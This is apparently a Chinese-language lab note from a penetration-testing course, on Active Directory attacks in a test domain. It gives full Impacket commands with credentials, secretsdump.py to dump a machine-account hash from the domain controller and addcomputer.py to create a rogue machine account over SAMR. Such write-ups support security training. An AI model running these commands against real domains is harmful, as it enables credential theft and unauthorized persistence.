 
如图所示，导出 web 机器的机器帐户哈希，192.168.10.8 是 dc 的 ip

```
secretsdump.py xiaodi.local/administrator:Admin123456@192.168.10.8 -just-dc-user "web$"
```

好像得用administrator用户去导，dbadmin 和 新建的 hack 用户都失败了

<img src=".\图片\Snipaste_2023-09-15_17-04-12.png" alt="Snipaste_2023-09-15_17-04-12" style="zoom:80%;" />



新建机器用户：

1、

可以通过 python 脚本利用 SAMR 协议远程创建机器用户，使用 `addcomputer.py` 脚本执行如下命令利用 SAMR 协议远程新建一个域内机器用户 machine，密码为 root

```bash
addcomputer.py -computer-name 'machine' -computer-pass 'root' -dc-ip 192.168.10.8 'xiaodi.local/hack:P@ss1234' -method SAMR -debug
```

<img src=".\图片\Snipaste_2023-09-15_17-10-03.png" alt="Snipaste_2023-09-15_17-10-03"  />

<img src=".\图片\Snipaste_2023-09-15_17-10-20.png" alt="Snipaste_2023-09-15_17-10-20" style="zoom:80%;" />
